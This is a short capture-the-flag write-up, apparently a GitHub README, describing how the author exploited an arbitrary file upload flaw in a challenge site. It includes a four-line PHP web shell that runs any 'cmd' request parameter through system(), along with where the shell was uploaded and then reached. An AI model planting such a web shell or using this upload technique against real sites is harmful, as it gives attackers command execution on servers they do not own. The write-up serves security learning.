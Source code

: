 My first ctf report which has Arbitary File Upload Vulnerability.
1. Firstly, I visited the login page(login.html) 
2. Registered myself and then logged in.
3. Then, I tried to look into the page source but nothing came out to be useful for me.
4. After looking into every other pages , I found the upload feature in profile.html
<img src="https://github.com/AmanDekate1/SecurityBoat-2024-CTF-January-Challenge/blob/main/upload.png">
5. Then i looked for the arbitary file upload feature.
6. First I uploaded a sample image, and checked its location on server using inspect element.
<img src="https://github.com/AmanDekate1/SecurityBoat-2024-CTF-January-Challenge/blob/main/inspect.png">
7. It was time for a script..
  <?php 
  if(isset($_REQUEST['cmd'])){
      $cmd = ($_REQUEST['cmd']);
      system($cmd);
  }?>

8.  if we go to the non valid directory we can see the error is exposing that it is a Apache server and Apache server mostly uses php files.  <---Why I used php
<img src="https://github.com/AmanDekate1/SecurityBoat-2024-CTF-January-Challenge/blob/main/whyphp.png">
9. Uploading my script. After a message "File Uploaded Successfully!" all I need to do is go to the uploaded image directory (assets/profPic/shelly.php) to make my script working.
10. We got the command execution!
<img src="https://github.com/AmanDekate1/SecurityBoat-2024-CTF-January-Challenge/blob/main/works.png">
<img src="https://github.com/AmanDekate1/SecurityBoat-2024-CTF-January-Challenge/blob/main/flag.png">
11. {Unrestr!cted_F!le_Upload_!s_Fun} 
